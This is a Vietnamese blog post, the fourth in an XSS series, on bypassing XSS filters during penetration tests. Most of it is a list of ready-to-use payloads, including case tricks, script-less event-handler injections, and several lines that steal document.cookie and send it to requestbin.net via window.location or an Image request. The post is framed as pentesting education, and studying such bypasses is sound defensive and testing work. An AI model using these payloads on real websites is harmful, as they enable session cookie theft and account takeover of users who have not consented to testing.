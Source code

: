 ```yaml
---
layout: post
title: Cross Site Scripting (XSS) [Part 4] - Các phương pháp bypass filter XSS,
date: 2021-05-23 00:32:20 +0700
description: Tìm hiểu về lỗi Cross Site Scripting trên ứng dụng web - P4,
img: 2021/05/23/210523_xss_filter.jpg
fig-caption: # Add figcaption (optional)
tags: [Security, WebSecurity]
---
```

Trong quá trình pentest ứng dụng có thể gặp nhiều trường hợp các payload XSS bị filter, làm thế nào để có thể bypass quá trình filter đó. Bài viết này chúng ta sẽ sẽ cùng nhau trao đổi một số phương pháp để thực hiện việc này. 

>PS: Chủ đề này tôi cũng không định ngồi viết một lèo là xong, sẽ viết dần dần theo năm tháng dựa trên những kinh nghiệm của mình tích lỹ được. Do vậy lâu lâu các bạn vào ngó nha có thể có nội dung mới nha. Ok, bắt đầu thôi.

**Nhắc lại:** Các cách bypass XSS phụ thuộc vào khả năng làm sạch input (thực hiện bởi WAF hoặc Ứng dụng). Có một vài cơ chế của việc này như:
* Trả lại lỗi, loại bỏ, encode, hoặc thay thế các input không hợp lệ. 
* Một số có thể dùng blacklist hoặc whitelist các ký tự thường gặp trong payload để ngăn chặn XSS.

Tùy thuộc vào cơ chế filter mà có các cách bypass khác nhau. Nếu ví quá trình filter như người bảo vệ ứng dụng web thì quá trình bypass là quá trình luồn lách để qua mặt những người bảo vệ này. Khó thể nói có công thức nào tuyệt đối mà là sự tùy cơ ứng biến cho phù hợp từng hoàn cảnh. Hãy nhớ điều này.


## Các load js nguyên thủy (Không mask) huyền thoại 
### Alert message
```<script>alert(1);</script>```

### Dùng window location
```<script>window.location="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie)</script>```

### Dùng image
```<script>new Image().src="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie);</script>```

## Các payload sử dụng mask
### Case sensitive
```<SCRIPT>alert(1);</SCRIPT>```

```<ScRipT>alert(1);</sCriPt>```
### Lọc thẻ script
* Insert thêm ký tự trình duyệt hay bỏ qua (Tab, escape)

```<script  >alert(1);</script   >```

* Không dùng thẻ script

```<img src=x onerror=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)>```

```<video src=1 onerror=alert(1)>```

```<audio src=1 onerror=alert(1)>```

```<img src=1 href=1 onerror="javascript:alert(1)"></img>```

```<audio src=1 href=1 onerror="javascript:alert(1)"></audio>```

```<video src=1 href=1 onerror="javascript:alert(1)"></video>```

```<input onblur=javascript:alert(1) autofocus><input autofocus>```

```<button autofocus onfocus=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)></button>```

```<a onmouseover=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)>xxs link</a>```

